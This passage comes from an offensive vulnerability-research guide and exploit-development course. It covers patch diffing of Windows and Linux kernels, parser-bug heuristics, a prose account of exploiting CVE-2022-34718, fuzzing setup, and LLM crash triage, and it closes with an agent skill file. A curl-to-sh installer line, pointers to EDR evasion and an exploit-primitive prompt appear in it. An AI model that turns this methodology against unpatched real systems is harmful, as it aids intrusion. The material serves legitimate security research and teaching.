     ghidriff diff pre/tcpip.sys post/tcpip.sys -o tcpip.diff
     ```

6. Triage the results
   - Sort by _Similarity %_ ascending; investigate anything below **95 %**.
   - Focus on functions with names like `Validate`, `Parse`, `Copy`, `Check`, or protocol‑specific handlers (`IppReceiveEsp`, `Ipv6pFragmentReassemble`, etc.).
   - Determine whether changes add bounds checks, size validations, or privilege checks.

7. Validate in a lab VM
   - Snapshot two Windows 11 VMs (build **3447** and **3525**).
   - Attach WinDbg (kernel mode) using `bcdedit /dbgsettings net hostip:<IP> port:<PORT>`.
   - Reproduce the issue against the **pre‑patch** VM; confirm no crash or breakpoint triggers in the **post‑patch** VM.

8. Automate monthly
   - Schedule a PowerShell script that, every Patch Tuesday (second Tuesday), downloads the latest Cumulative Update, extracts changed PE files, retrieves symbols, and launches a headless **Diaphora** diff.
   - Email the generated HTML report to quickly spot new attack surface.

> [!TIP]
> For large modules like **ntoskrnl.exe**, diff only the `.text` section to save RAM:  
> bindiff --primary ntoskrnl_pre.i64 --secondary ntoskrnl_post.i64 --section .text

#### Linux Kernel Patch Diffing

Patch‑diffing Linux kernels is often faster at the source level, but for binary‑only targets (vendor kernels, modules) function‑level diffing is still practical.

1. Identify target builds
   - Note distro and kernel build (e.g., Ubuntu `6.8.0-47-generic`, RHEL `5.14.0-503`).
   - Capture both pre and post versions (package changelogs or CVE bulletins help).

2. Fetch kernel images and debug info
   - Ubuntu/Debian:
     ```bash
     # Discover versions
     apt list -a linux-image-generic | cat
     # Download image + modules dirs (repeat for both versions)
     apt-get download linux-image-unsigned-<ver>-generic linux-modules-<ver>-generic
     # Debug symbols via debuginfod (preferred to ddebs)
     export DEBUGINFOD_URLS="https://debuginfod.ubuntu.com https://debuginfod.debian.net"
     ```
   - Fedora/RHEL/CentOS:
     ```bash
     dnf download kernel-core-<ver> kernel-debuginfo-<ver>
     rpm2cpio kernel-core-<ver>.rpm | cpio -idmv
     rpm2cpio kernel-debuginfo-<ver>.rpm | cpio -idmv
     ```

3. Extract `vmlinux`

   ```bash
   # If only vmlinuz is present, use the upstream helper
   /usr/src/linux-headers-<ver>/scripts/extract-vmlinux /boot/vmlinuz-<ver> > vmlinux-<ver>
   # Or take vmlinux directly from debuginfo package tree
   ```

4. Identify changed modules quickly

   ```bash
   # Compare module trees (pre vs post)
   rsync -rcn --delete /lib/modules/<pre>/ /lib/modules/<post>/ | grep -E "\.ko$" | sed 's/^/chg: /'
   ```

5. Function‑level binary diff
   - Open `vmlinux-<pre>` and `vmlinux-<post>` in Ghidra 11/IDA 8 and run Diaphora/BinDiff/Ghidriff.
   - For hot subsystems (e.g., `io_uring`, `net/ipv6`, `fs/overlayfs`), diff only the relevant `.ko` pairs to reduce noise.

6. Source‑level triage (when sources are available)

   ```bash
   # Ubuntu example: unpack both source trees, then
   git diff --no-index -- function.c.orig function.c.patched | less
   # Or use diffoscope for enriched reports
   ```

7. Symbolization and crash mapping (cheat‑sheet)

   ```bash
   # Decode kernel oops backtraces to lines
   ./scripts/decode_stacktrace.sh vmlinux /lib/modules/<ver>/build < dmesg.log
   # Map PC to file:line quickly
   addr2line -e vmlinux-<ver> 0xffffffff81234567
   ```

> [!TIP]
> For modern distros built with Clang: KCFI and fine‑grained CFI thunks create many small stub changes; filter by real function body deltas to focus on security‑relevant logic.

> [!NOTE]
> Syzkaller routinely bisects kernel bugs; consult syzbot reports for reproducers and fix commits, then confirm your diff isolates the same region before deeper RE.

#### Kernel network parser identification heuristics (SMB2-inspired, broadly applicable)

##### Cross-field invariants (length/offset/next)

- Always validate `(offset + length) <= remaining_buffer` and `<= total_buffer` using a widened type (e.g., `u64`) before arithmetic; reject on overflow with `check_add_overflow()`/`array_size()` helpers.
- For chained entries with a `next` field, assert: `next >= sizeof(entry_header)`, `next <= remaining_buffer`, and that pointer advancement actually makes progress. For entries carrying sub-lengths (e.g., `name_len`, `value_len`), assert `header + name_len + value_len <= next`.
- Do not cast to a struct until the full header is present and aligned; gate recasts with a prior `buf_len` check.

##### Fixed-size buffers vs variable-length payloads

- Ban unbounded copies/crypto/decompression into fixed-size arrays. Require `len <= sizeof(array)` (or clamp with `min_t()` and bail) when writing into in-struct arrays.
- Crypto transforms are just writes with extra steps: if using ARC4/AES helpers that copy `len` bytes into a fixed buffer (e.g., session keys), bound `len` against a named maximum constant and prefer allocating a buffer sized from validated `len`.

##### Type/width hazards

- Normalize parser math to a wide unsigned type before comparisons; avoid truncating `u32/u64` fields into `u16` for size checks. Favor `size_t/u64` for `offset+len` arithmetic, then compare to `buf_len` of the same width.

##### Loop structure around `next`

- Pattern to flag: `e = (struct entry *)((char *)e + next);` without a preceding block that revalidates `buf_len` and the entry’s internal sub-lengths.
- Ensure a break condition on exhaustion and reject zero/negative progress values to avoid infinite loops or pointer stagnation.

##### Allocation-size correlation

- When parser-controlled `len` influences a subsequent write into an object from a fixed SLUB cache (e.g., `kmalloc-512`), ensure the write length is bounded by the destination object field, not just the incoming length.

##### Patch-diff signals to prioritize

- Newly added guards like `if (len > CONST) return -EINVAL;`, `if (buf_len < sizeof(struct foo)) return -EINVAL;`, or conversions to `min_t(size_t, len, sizeof(...))`.
- Insertions of `check_add_overflow(offset, len, &sum)` or `array_size(n, sz)` helpers in hot parse paths.

##### Static query seeds (Semgrep/CodeQL), to tune per codebase

- Unbounded copies into struct fields:
  ```yaml
  rules:
    - id: c-fixed-array-unbounded-copy
      languages: [c, cpp]
      patterns:
        - pattern: memcpy($DST, $SRC, $LEN)
        - pattern-inside: |
            struct $S { ... char $BUF[$N]; ... };
            ...
            $DST = &...->$BUF
        - pattern-not: memcpy($DST, $SRC, MIN($LEN, sizeof(*$DST)))
      message: Unbounded copy into fixed-size struct field
      severity: WARNING
  ```
- Dangerous `next`-driven pointer arithmetic without bounds checks:
  ```yaml
  - id: c-parser-next-missing-bounds
    languages: [c, cpp]
    pattern: |
      $E = (struct $T *)((char *)$E + $NEXT);
    message: Parser advances by user-controlled 'next' without prior buf_len/sizeof checks
    severity: WARNING
  ```
- Crypto/decompression writes to fixed arrays (seed with function names in your tree, e.g., `*_crypt`, `*_decrypt`, `decompress_*`).

##### Dynamic confirmation (cheap)

- Grammar fuzz small invariants: send `next < header`, `next > remaining`, `name_len + value_len > next`, and `len > MAX_CONST` variants; expect `-EINVAL`/reject. If not, investigate.
- Use TUN/TAP + KCOV to drive packet/SMB request paths; enable KASAN/KMSAN to surface overflows/leaks early.

##### Reference (motivating example)

- Lessons distilled from a 2025 ksmbd remote chain writeup combining a fixed-buffer overflow in NTLM auth with an EA `next` validation issue — see Will’s Root: Eternal‑Tux: KSMBD 0‑Click RCE (`https://www.willsroot.io/2025/09/ksmbd-0-click.html`).

#### Case Study: EvilESP Vulnerability (CVE-2022-34718)

This case study demonstrates real-world patch diffing to identify a Windows TCP/IP RCE vulnerability.

##### Vulnerability Overview

- CVE-2022-34718: Critical RCE in `tcpip.sys` discovered in September 2022
- An unauthenticated attacker could send specially crafted IPv6 packets to Windows nodes with IPsec enabled
- Affects the handling of ESP (Encapsulating Security Payload) packets in IPv6 fragmentation

##### Patch Diffing Process

1. **Binary Acquisition**
   - Used Winbindex to obtain sequential versions of `tcpip.sys` (pre-patch and post-patch)
   - Loaded both files in Ghidra with PDB symbols

2. **Diff Analysis**
   - Used BinDiff to compare the binaries
   - Identified only two functions with less than 100% similarity: `IppReceiveEsp` and `Ipv6pReassembleDatagram`

3. **Code Analysis**
   - **Ipv6pReassembleDatagram**: Added bounds check comparing `nextheader_offset` against the header buffer length
   - **IppReceiveEsp**: Added validation for the Next Header field of ESP packets

4. **Root Cause Identification**
   - Found an out-of-bounds 1-byte write vulnerability
   - ESP Next Header field is located after the encrypted payload data
   - A malicious packet could cause `nextheader_offset` to exceed the allocated buffer size

_(Update: Server 2022 build 20349.2300, May 2024, hardened this code path; the original PoC needs a 2-byte pad tweak to reproduce the crash.)_

##### Exploitation

- Required setting up IPsec security association on the victim
- Created fragmented IPv6 packets encapsulated in ESP
- Controlled the offset of the out-of-bounds write through payload and padding size
- Value written is controllable via the Next Header field
- Limited to writing to addresses that are 4n-1 aligned (where n is an integer)
- Initially achieved DoS with potential for RCE through further exploitation

##### Lessons Learned

- Binary patch diffing effectively identified the vulnerability location and nature
- Understanding protocol specifications (ESP and IPv6 fragmentation) was critical
- Simple buffer checks are still overlooked in complex networking code
- Even limited primitives (single byte overwrite at constrained offsets) can be dangerous
- For modern exploitation techniques, see [Modern Samples](/exploit/modern-samples.md)
- For mitigation bypass techniques, see [Modern Mitigations](/exploit/modern-mitigations.md)

When applying patch diffing to networking protocols:

1. Understand the protocol specifications thoroughly
2. Look for missing bounds checks in data processing
3. Pay attention to buffer size calculations
4. Check for proper validation of protocol field values and locations
5. Consider evasion techniques for exploit deployment - see [EDR](/exploit/edr.md)
6. Specs: ESP (RFC 4303) and IPv6 (RFC 8200) are essential references when reasoning about header placement and bounds

#### Semi-Automatic Patch Diffing

- Use [WinbIndex](https://winbindex.m417z.com/) to download the changed binary and then use [BinDiff](https://www.zynamics.com/bindiff.html) or [Ghidriff](https://github.com/clearbluejar/ghidriff) to actually see the diff itself
- You can also use [Diaphora](https://github.com/joxeankoret/diaphora) instead of BinDiff

#### Manual Patch Diffing

- Microsoft releases patches on the second Tuesday of each month
- For Windows you can go to [update catalog](https://www.catalog.update.microsoft.com/Search.aspx) and search for the product version (for example `2022-10 x64 "Windows 10" 22H2`)
- Try to look for smaller updates

```shell
mkdir 2022-09
mv *.msu 2022-09
cd 2022-09
mkdir extract
mkdir patch
expand -F:* .\*.msu .\extract
expand -F:* .\extract\<largest>.cab .\patch
expand -F:* .\patch\<largest>.cab .\patch
expand -F:* .\patch\Cab_* .\patch\
```

You can use [Patch Extract](https://gist.github.com/abzcoding/f6191c3aa9ca6d019f360b429d6b510f) instead

```shell
gci -Recurse c:\windows\WinSxS\ -Filter ntdll.dll

# copy the biggest file somewhere
.\delta_patch.py -i .\NTDLL\ntdll.dll -o ntdll.2020-10.dll .\NTDLL\r\ntdll.dll .\2020-10\x64\ntdll_<stuff>\f\ntdll.dll
.\delta_patch.py -i .\NTDLL\ntdll.dll -o ntdll.2020-11.dll .\NTDLL\r\ntdll.dll .\2020-11\x64\ntdll_<stuff>\f\ntdll.dll
```

Open unpatched version in IDA as the primary and the second, after that use BinDiff add-on to find the differences between them
then right click on a different matched function and see the visual diff in bin diff
also you can uncheck proximity browsing to see the entire function
look at red blocks and then yellow blocks

With patch clean script you can only see the actual changed files

#### IDA Pro and Rust Tools for Vulnerability Research

- [rhabdomancer](https://github.com/0xdea/rhabdomancer): IDA Pro headless plugin that locates calls to potentially insecure API functions in binary files
  - Helps auditors backtrace from candidate points to find pathways allowing access from untrusted input
  - Generates JSON/SARIF reports containing vulnerable function calls and their details
  - Written in Rust using IDA Pro 9 idalib and Binarly's idalib Rust bindings

- [haruspex](https://github.com/0xdea/haruspex): IDA Pro headless plugin that extracts pseudo-code generated by IDA Pro's decompiler
  - Exports pseudo-code in a format suitable for IDEs or static analysis tools like Semgrep/weggli
  - Creates individual files for each function with their pseudo-code
  - Can be used as a library by third-party crates

- [augur](https://github.com/0xdea/augur): IDA Pro headless plugin that extracts strings and related pseudo-code from binary files
  - Stores pseudo-code of functions that reference strings in an organized directory tree
  - Helps trace how strings are used within the application
  - Complements other reverse engineering tools

#### Modern Static Analysis Tools

- **Semgrep Pro** – Cloud-augmented SAST with custom rule sharing, LLM-assisted rule writing
- **CodeQL** – GitHub's semantic code analysis, excellent for variant analysis
- **Weggli** – Fast semantic search for C/C++ (better than grep for code patterns)
- **Joern** – Code property graph analysis for vulnerability discovery
- **Ghidra 11.2+** – Built-in ML-powered function signature recognition
- **Binary Ninja 4.0** – Cloud collaboration, improved HLIL decompilation
- **Cutter** – Rizin GUI with built-in decompiler integration

#### Deprecated Tools (Avoid)

- **Intel Pin** → Use DynamoRIO or Frida (Pin is sustain-only mode)
- **WinAFL** → Use AFL++ 4.x (integrated Windows support)
- **Old BinDiff** → Use BinDiff 8 or Ghidriff

For more details about these tools: [Streamlining vulnerability research with IDA Pro and Rust](https://security.humanativaspa.it/streamlining-vulnerability-research-with-ida-pro-and-rust/)

## Dynamic Analysis Methods

Dynamic analysis examines code during execution to identify vulnerabilities in real-time operation.

### Hybrid Reverse Engineering (dynamic)

Reverse engineering involves analyzing an application while it runs to understand its behavior.

#### Network Protocol Analysis Example

- Identify ports used by a program
- Use WinDbg to debug it
- Set a breakpoint on `bp wsock32!recv`
- Write a python script to send data to that port
- After your breakpoint hits, continue execution using `pt` and check `rax` for result and `dd rsp L5` for input buffer
- `lm m <exe_name>` to identify its location on the disk
- Open that executable with IDA and rebase module
- Use the information printed by WinDbg `k` command to find the location you need to investigate
- Set a hardware breakpoint on your input buffer, only check functions that touches it
- Dump the callstack when your breakpoint got hit
- Try to identify the correct packet structure
- Then try to send proper malformed packets to crash it

#### Hypervisor Debugging and Analysis

- Debugging Windows Hypervisor (Hyper-V) requires specialized setup and knowledge
- Setup requirements:
  - Host: Windows 10/11 with WinDbg
  - Guest: Windows VM with Virtualization-based security (VBS) enabled
  - Configure debugging with `bcdedit /hypervisorsettings` commands

- Analyzing Hypervisor components:
  - Target `hvix64.exe` (Intel processor hypervisor core)
  - Use bindiff with `winload.efi` and older versions of `hvloader.dll` for insight
  - Leverage Hypervisor Top Level Functional Specification (TLFS) documentation

- Inspecting Secure Kernel (SK) Calls:
  - Monitor VTL calls (transitions from VTL0 to VTL1)
  - Use conditional breakpoints on `nt!VslpEnterIumSecureMode`
  - Examine secure service call numbers (SSCN)
  - Use tools like hvext to translate guest virtual addresses

- Memory access techniques:
  - Translate Guest Virtual Address (GVA) to Guest Physical Address (GPA)
  - Translate GPA to Host Physical Address (HPA) when needed
  - Understand Second Level Address Translation mechanisms

- For mitigation techniques, see [Mitigation](/exploit/mitigation.md) or [Modern Mitigations](/exploit/modern-mitigations.md)

### Binary Instrumentation

Binary instrumentation is a prerequisite for advanced dynamic analysis methods.

- [Intel Pin](https://www.intel.com/content/www/us/en/developer/articles/tool/pin-a-dynamic-binary-instrumentation-tool.html): is a dynamic binary instrumentation framework
  - It enables you to write modules that execute some program and insert code into it at execution time to track things
  - Can easily hook any function in the program and collect runtime data
  - Can be combined with Ghidra/IDA to provide more information
    > [!NOTE]
    > Intel Pin is now in sustain‑only mode — no new ISA extensions will be added. Prefer **DynamoRIO** or **Frida‑Stalker** for forward‑looking projects.
- [DynamoRIO](https://github.com/DynamoRIO/dynamorio): more powerful and faster alternative to `Intel Pin`, but harder to setup
- `Frida`: Slower, better for mobile applications

### Dynamic Taint Analysis

- Technique to determine how data flow through a given program and influence its state
- Done by marking certain bytes of memory and tracking how it flows through program execution
- Often implemented on top of dynamic binary instrumentation tools like Intel Pin
- Steps:
  - Define taint sources: data that you want to track
  - Define taint sinks: program locations that we want to check if they get influenced by data from taint sources
  - Tracking input propagation: all instructions handling taint data need to be instrumented

### Symbolic Execution

- Transform the program into a mathematical equation that can be solved
- Instructions are simulated to maintain a binary formula describing the satisfied conditions for each path
- Scan types:
  - `Static`: [S2E](https://github.com/S2E/s2e) based on source code, not reliant on architecture, very hard to reason about kernel/libraries
  - `Dynamic`: combine concrete state with symbolic state, scales better
- Engine types:
  - `Full System`: operates on the entire VM by integrating with hypervisors, very powerful but hard to use
  - `Binary`: [Triton](https://github.com/JonathanSalwan/Triton) based on Pin/Taint Analysis and [Angr](https://github.com/angr/angr) based on `VEX-IR`
  - `Source Code`: [Klee](https://github.com/klee/klee) based on LLVM
- You can augment fuzzers via symbolic execution, [driller](https://github.com/shellphish/driller) is an example

#### Challenges with Symbolic Execution

- Memory
  - Complex data structures are hard to symbolize
- Environment
  - How are library and system calls handled
  - Symbolically executing massive library functions hurt performance
- State/Path Explosion
  - Biggest issue, loops/nested conditionals exponentially increases execution state
  - Heuristics are often used to determine with paths to follow
- Constraint Solving
  - Once the formula gets large enough, it gets hard to solve and impacts performance

### eBPF‑based Dynamic Tracing

- **bpftrace** / **BCC**: attach uprobes/kprobes to collect heap, syscall, or scheduler events with minimal overhead
- Ideal for pre‑fuzz triage and live coverage measurement on kernels or containerised workloads

# Collect light coverage then visualize
drrun -t drcov -- ./target @@
python3 drcov2lcov.py ./drcov.*.log > coverage.info
genhtml coverage.info -o cov_html
```

- Load into Lighthouse (IDA) or lcov HTML to identify cold paths reachable from attacker input
- Use results to select fuzz targets and build a minimal, representative seed corpus

## Fuzzing

Fuzzing is a technique where you feed the application malformed inputs and monitor for crashes or unintended behaviors. See the dedicated [Fuzzing](/exploit/fuzzing.md) document for more detailed techniques.

#### What is Fuzzing?

- Target software parses controllable input
- We create and/or mutate input and feed it into program
- Find crashes

#### What a Fuzzer Does

- Generic but platform/architecture specific
- Handles Input Generation/Mutation/Saving (called Corpus)
- Instrumenting Target (running, resetting, getting feedback)
- Reporting Crashes

#### Fuzzer vs Harness Relationship

- Find Top Level Callable Functions
- Use Harness to Call that Function and Feed Input to it
- Fuzzer Generates and Sends the Input to Harness and Collects Coverage and Detects Crashes

### Crash Detection Techniques

- Paged Heap (heap overflows, UAF)
  - Guard pages between allocations
- Address Sanitizer (overflows + more)
  - Shadow memory (by inserting red zones in-between stack objects)
- Memory Sanitizer (uninitialized variable read)
  - Memory Leak, Used to Break ASLR
- Cluster crashes with token‑based Capstone‑hashing or `gdb‑script dedup.py` before manual analysis.

#### Modern Fuzzing Frameworks

- **AFL++ 4.21+** – Unified cross-platform fuzzer with Windows support, CMPLOG, QEMU-mode
- **LibAFL 0.13+** – Rust-native, highly customizable, supports in-process and fork-server modes
- **Honggfuzz** – Persistent-mode Windows support, hardware-based feedback
- **Nyx** – Full-VM snapshot fuzzing with KVM acceleration
- **ICICLE** – Fast Windows kernel fuzzing framework
- **Syzkaller** – Kernel fuzzer with LLM-guided seed selection (2025)

#### Instrumentation & Coverage

- **DynamoRIO** – Used by AFL++, faster than Intel Pin (Note: Intel Pin is now sustain-only)
- **Frida Stalker** – Cross-platform dynamic instrumentation
- **Intel PT** – Hardware-accelerated coverage collection
- **Emerald** – Generates `drcov` data for coverage visualization

#### Specialized Fuzzers

- **ChatAFL / LLM-driller** – LLM-guided corpus expansion (+30% coverage on complex targets)
- **Reads-From Fuzzer (RFF)** – Concurrency fuzzer for race/TOCTOU bugs
- **LibFuzzer** – In-process, coverage-guided fuzzer for source-available targets
- **Radamsa** → **Replaced by LibAFL mutators** (more coverage-aware)

#### Symbolic Execution Engines

- **Triton** – Dynamic binary analysis framework
- **Angr** – Binary analysis platform with symbolic execution
- **Manticore** – Dynamic symbolic execution tool
- **S2E** – Selective symbolic execution platform

### Continuous-Integration Fuzzing

- **ClusterFuzzLite** – GitHub Actions/CI runner that feeds corpora to AFL++, libFuzzer or honggfuzz and files issues automatically.

#### VMM Snapshot Fuzzing

- **QEMU Snapshots:** Fast restoration for stateful targets
- **KVM Acceleration:** Dirty page tracking for efficient resets
- **Persistent Mode:** Memory-only reset without full VM restore

#### Smart Fuzzing

- _Mutation Based_: Test cases are obtained by applying mutations to valid, known good samples (e.g., [Radamsa](https://gitlab.com/akihe/radamsa))
- _Generation(Grammar) Based_: Test cases are obtained by modeling files or protocol specifications based on models, templates, RFCs, or documentation (e.g., [Peach Fuzzer](https://peachtech.gitlab.io/peach-fuzzer-community/))
- _Model Based_: Test cases are obtained by modeling the target protocol/file format (when you want to test the target's ability to accept and process invalid sequences of data)
- _Differential Fuzzing_: Comparing outputs of different implementations with the same input

#### Evolutionary Fuzzing

- Test cases and inputs are generated based on the response from the program
- `AFL` is an example
- Or Google ClusterFuzz

#### Concurrency Fuzzing

- Systematically permutes thread scheduling to uncover data‑race, atomicity, and TOCTOU vulnerabilities that traditional coverage‑guided fuzzers miss

#### LLM‑Guided Fuzzing

- **ChatAFL** – integrates an LLM to propose protocol‑aware mutations; boosts state coverage on network daemons by ~40 %.
- **SyzAgent / SyzLLM (2025‑02)** – schedules kernel `syz` programs suggested by an LLM fine‑tuned on the Syzkaller corpus.
- **NumSeed** – leverages natural‑language descriptions of inputs to seed generation for binary‑only targets.

### Combined Method

The most effective approach often combines multiple techniques:

- Reverse engineer first to identify interesting parts
- Fuzz those parts to find crashes
- Investigate crashes to find exploitable vulnerabilities
- For shellcode development, see [Shellcode](/exploit/shellcode.md)

## AI/ML-Assisted Vulnerability Discovery

Modern vulnerability research increasingly leverages machine learning and large language models to accelerate discovery and analysis.

### LLM-Powered Triage and Analysis

- **Automated Crash Analysis:**
  - GPT-4/Claude for interpreting crash dumps and stack traces
  - Automated root-cause hypothesis generation from fuzzer output
  - Natural language queries against large codebases for vulnerability patterns
- **Decompilation Enhancement:**
  - Ghidra's ML-powered function signature recognition (11.2+)
  - Binary Ninja's HLIL AI improvements for cleaner pseudocode
  - Automated variable and function renaming based on context

### AI-Powered Vulnerability Scanners

- **ZeroScan:** Deep learning model trained on CVE datasets to identify vulnerability patterns in binaries
- **BigCode/StarCoder Models:** Fine-tuned on security-relevant code for pattern recognition
- **CodeQL with ML:** GitHub's semantic analysis enhanced with machine learning classifiers

### LLM-Assisted Fuzzing

- **ChatAFL:** Uses LLMs to generate input grammars and seed corpus based on protocol documentation
- **HyLLFuzz:** GPT/Llama-3 generates branch-targeted mutations achieving ~1.3× edge coverage improvement
- **Grammar Inference:** Automatically derive input structure from example files using transformer models

# Example: Using local LLM for crash triage (OPSEC-safe)
from transformers import AutoTokenizer, AutoModelForCausalLM

def analyze_crash_local(crash_log, binary_info):
    model = AutoModelForCausalLM.from_pretrained("meta-llama/Llama-3-8b")
    tokenizer = AutoTokenizer.from_pretrained("meta-llama/Llama-3-8b")

    prompt = f"""Analyze this crash and suggest root cause:

Binary: {binary_info}
Crash Log:
{crash_log}

Provide: 1) Root cause hypothesis 2) Exploitability assessment 3) Suggested exploit primitive"""

    inputs = tokenizer(prompt, return_tensors="pt")
    outputs = model.generate(**inputs, max_length=1000)
    return tokenizer.decode(outputs[0])
```

### Limitations and Considerations

- **False Positives:** AI models can hallucinate vulnerabilities; manual verification essential
- **Training Data Bias:** Models trained on public CVEs may miss novel vulnerability classes
- **OPSEC:** Avoid sending proprietary code to cloud LLM APIs; use local models (Llama, Mistral)
- **Context Windows:** Most models have 4K-32K token limits; chunk large binaries/logs appropriately

### By Target Type

| Target               | Primary Tools     | Secondary Tools     |
| -------------------- | ----------------- | ------------------- |
| **Linux Kernel**     | Syzkaller, AFL++  | KASAN, KCOV, ftrace |
| **Windows Kernel**   | ICICLE, WinAFL    | Verifier, KFUZZ     |
| **Browsers**         | LibFuzzer, Domato | ClusterFuzz, Dharma |
| **Network Services** | AFL++, Boofuzz    | Peach, Sulley       |
| **Mobile Apps**      | QARK, Frida       | MobSF, Objection    |
| **Web Apps**         | Burp Suite, FFUF  | Nuclei, Semgrep     |
| **Firmware**         | Binwalk, EMBA     | FACT, Firmwalker    |
| **Containers**       | Trivy, Falco      | Grype, Syft         |

### By Technique

| Technique               | Recommended Tools    | Notes                          |
| ----------------------- | -------------------- | ------------------------------ |
| **Coverage Fuzzing**    | AFL++ 4.21+          | Cross-platform, CMPLOG support |
| **Snapshot Fuzzing**    | Nyx, QEMU+AFL++      | Stateful target support        |
| **Concurrency Fuzzing** | RFF, ThreadSanitizer | Race condition detection       |
| **Symbolic Execution**  | Angr, Triton         | Path exploration               |
| **Taint Analysis**      | DynamoRIO, Triton    | Data flow tracking             |
| **Binary Diffing**      | BinDiff 8, Ghidriff  | Patch analysis                 |
| **Static Analysis**     | CodeQL, Semgrep      | Pattern matching               |
| **Dynamic Analysis**    | Frida, DynamoRIO     | Runtime instrumentation        |

### Tool Migration Path

| Old Tool  | New Alternative    | Migration Notes            |
| --------- | ------------------ | -------------------------- |
| Intel Pin | DynamoRIO          | Pin is sustain-only        |
| WinAFL    | AFL++ 4.x          | Integrated Windows support |
| Radamsa   | LibAFL mutators    | Better coverage awareness  |
| BinDiff 7 | BinDiff 8/Ghidriff | Improved algorithms        |
| IDA 7.x   | IDA 8.x/Ghidra 11  | Better decompilation       |


### From `hunt-skills/fuzzing/offensive-fuzzing-course/SKILL.md`

## Metadata
- **Skill Name**: fuzzing-course
- **Folder**: offensive-fuzzing-course
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/2-fuzzing.md

## Description
Week 2 of the exploit development curriculum. Covers fuzzing methodology: target selection, corpus generation, coverage-guided fuzzing with AFL++/libFuzzer, structured fuzzing, and triage/deduplication. Use when setting up fuzz campaigns, selecting harness strategies, or triaging fuzzer output.

## Trigger Phrases
Use this skill when the conversation involves any of:
`fuzzing curriculum, AFL++, libFuzzer, coverage-guided fuzzing, corpus generation, harness, fuzz target, mutation, triage, crash dedup, week 2, exploit dev course`

## Overview

_created by AnotherOne from @Pwn3rzs Telegram channel_.

This document is Week 2 of a multi‑week exploit development course, focusing on discovering vulnerabilities through fuzzing techniques and analyzing the crashes to determine exploitability.

Last week we studied vulnerability classes through real-world examples. This week we'll learn to find these vulnerabilities ourselves using fuzzing - the automated technique that has discovered thousands of critical security bugs in production software.

Fuzzing can feel a bit front‑loaded: you may spend time wiring harnesses and running campaigns without immediately finding exciting new bugs, especially on hardened or well‑tested targets. That’s normal, and it's one reason the next week on patch diffing often feels more directly "practical" — many companies already run large fuzzing setups and need people who can understand and exploit the bugs those systems uncover. Still, working through this week is important: it teaches you how fuzzers actually discover real vulnerabilities, so when you later triage crashes or study patches, you'll have a solid intuition for how those bugs were found and how to reproduce them.

### Prerequisites

Before starting this week, ensure you have:

- A Linux virtual machine (Ubuntu 24.04 recommended) with at least 8GB RAM and 8 cpu cores
- Basic understanding of C/C++ programming
- Familiarity with command-line tools and debugging (GDB basics)
- Understanding of memory corruption vulnerabilities (from Week 1)

## Day 1: Introduction to Fuzzing

- **Goal**: Understand the fundamentals of fuzzing and get hands-on experience with `AFL++`.
- **Activities**:
  - _Reading_: "Fuzzing for Software Security Testing and Quality Assurance" by `Ari Takanen`(From 1.3.2 to 1.3.8 and 2.4.1 to 2.7.5).
  - _Online Resource_:
    - [Fuzzing Book by `Andreas Zeller`](https://www.fuzzingbook.org/) - Read "Introduction" and "Fuzzing Basics."
    - [`AFL++` Documentation](https://aflplus.plus/docs/) - Follow the quick start guide.
    - [Interactive Module to Learn Fuzzing](https://github.com/alex-maleno/Fuzzing-Module.git)
  - _Real-World Context_:
    - [Google OSS-Fuzz: Finding 36,000+ bugs across 1,000+ projects](https://google.github.io/oss-fuzz/)
    - [AFL Success Stories](https://lcamtuf.blogspot.com/2014/11/afl-fuzz-nobody-expects-cdata-sections.html) - Real vulnerabilities found by AFL
  - _Exercise_:
    - Set up a Linux virtual machine (VM) with the necessary tools installed, including compilers and debuggers
    - Run `AFL++` on a C program
    - If possible, use or write a small C program that contains a simple version of one of the Week 1 vulnerability classes (for example, a stack buffer overflow or integer overflow) so you can see fuzzing rediscover it.

```bash

# Install build dependencies
sudo apt update
sudo apt install -y build-essential gcc-13-plugin-dev cpio python3-dev libcapstone-dev \
    pkg-config libglib2.0-dev libpixman-1-dev automake autoconf python3-pip \
    ninja-build cmake git wget python3.12-venv meson

# Install LLVM (check latest version at https://apt.llvm.org/)
wget https://apt.llvm.org/llvm.sh
chmod +x llvm.sh
sudo ./llvm.sh 19 all

# Install Rust (required for some AFL++ components)
curl --proto '=https' --tlsv1.2 -sSf "https://sh.rustup.rs" | sh
source ~/.cargo/env

# Build and install AFL++
mkdir -p ~/soft && cd ~/soft
git clone --depth 1 https://github.com/AFLplusplus/AFLplusplus.git
cd AFLplusplus

# NOTE: unicorn support might fail(you need to add the env or run ./build_unicorn_support.py and fix issues yourself)
make distrib
sudo make install

# Phase 1: Simple crash example
cd ~/ && mkdir -p tuts && cd tuts
git clone --branch main --depth 1 https://github.com/alex-maleno/Fuzzing-Module.git
cd Fuzzing-Module/exercise1 && mkdir -p build && cd build

# Compile with AFL++ instrumentation
CC=/usr/local/bin/afl-clang-fast CXX=/usr/local/bin/afl-clang-fast++ cmake ..
make

# Create seed inputs
cd .. && mkdir -p seeds && cd seeds
for i in {0..4}; do
    dd if=/dev/urandom of=seed_$i bs=64 count=10 2>/dev/null
done

# Run AFL++ fuzzer
cd ../build
echo core | sudo tee /proc/sys/kernel/core_pattern
afl-fuzz -i ../seeds/ -o out -m none -d -- ./simple_crash

# Phase 2: Medium complexity example
cd ~/tuts/Fuzzing-Module/exercise2 && mkdir -p build && cd build
CC=/usr/local/bin/afl-clang-lto CXX=/usr/local/bin/afl-clang-lto++ cmake ..
make

cd .. && mkdir -p seeds && cd seeds
for i in {0..4}; do
    dd if=/dev/urandom of=seed_$i bs=64 count=10 2>/dev/null
done

cd ../build
afl-fuzz -i ../seeds/ -o out -m none -d -- ./medium
```

**Success Criteria**:

- AFL++ compiles and installs without errors
- Both fuzzing sessions start successfully
- You can see the AFL++ status screen showing paths found, crashes, etc.
- Check `out/crashes/` directory for any discovered crashes

**Troubleshooting**:

- If `afl-clang-fast` not found: Check `/usr/local/bin/` is in PATH
- If compilation fails: Ensure LLVM 19 is properly installed (`clang-19 --version`)
- If fuzzer doesn't start: Check CPU scaling governor (`echo performance | sudo tee /sys/devices/system/cpu/cpu*/cpufreq/scaling_governor`)

### Real-World Impact: AFL++ Finding CVE-2024-47606 (GStreamer)

**Background**: AFL++ and similar fuzzers are actively used to find vulnerabilities in production software. Let's examine a real case from Week 1.

**Case Study - CVE-2024-47606 (GStreamer Signed-to-Unsigned Integer Underflow)**:

- **Discovery Method**: Continuous fuzzing campaigns by security researchers using AFL++ on media parsers
- **The Bug**: GStreamer's `qtdemux_parse_theora_extension` had a signed integer underflow that became massive unsigned value
- **Attack Surface**: MP4/MOV files processed automatically by browsers, media players, messaging apps
- **Fuzzing Approach**:
